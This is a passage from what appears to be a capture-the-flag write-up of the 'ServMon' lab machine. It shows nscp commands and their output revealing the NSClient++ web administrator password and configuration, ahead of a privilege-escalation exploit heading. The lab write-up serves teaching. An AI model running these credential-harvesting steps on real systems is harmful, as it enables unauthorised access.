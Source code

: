 #### Command-1:

The below command was given in the [exploit-db](https://www.exploit-db.com/exploits/46802) page.

```bash
nadine@SERVMON c:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

We have actually found the web administrator's password. So, our prerequisite-2 is satisfied.

#### Command-2:

```bash
nadine@SERVMON c:\Program Files\NSClient++>nscp settings --show
INI settings: (ini://${shared-path}/nsclient.ini, c:\Program Files\NSClient++/nsclient.ini)
```

This command shows you where the configuration file is present, which then you can open to find the configuration.

```bash
nadine@SERVMON c:\Program Files\NSClient++>type "c:\Program Files\NSClient++\nsclient.ini" 
ï»¿# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help

; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1

---[snip]---
```

#### Command-3:

This below command will list every configuration that is not default.

```bash
nadine@SERVMON c:\Program Files\NSClient++>nscp settings --list
---[snip]---
/settings/NRPE/server.verify mode=peer-cert
/settings/default.allowed hosts=127.0.0.1
/settings/default.password=ew2x6SsGTxjRwXOT
/settings/external scripts/wrappings.bat=scripts\\%SCRIPT% %ARGS%
---[snip]---
```

### NSClient++ Exploit
